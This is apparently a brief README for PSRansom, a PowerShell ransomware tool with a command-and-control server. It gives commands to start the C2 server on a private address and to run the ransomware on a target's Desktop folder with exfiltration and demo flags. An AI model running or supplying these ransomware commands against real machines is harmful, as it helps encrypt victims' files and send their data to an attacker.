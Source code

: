 # PSRansom
PSRansome - Powershell based Ransomeware with C2

STEP A. On C2 (192.168.200.2):

.\C2Server.ps1 * 80

STEP B. On Target Machine:

.\PSRansom.ps1 -e C:\Users\bob\Desktop\ -s 192.168.200.2 -p 80 -x -Demo


https://github.com/v3gard/FakeRansomware

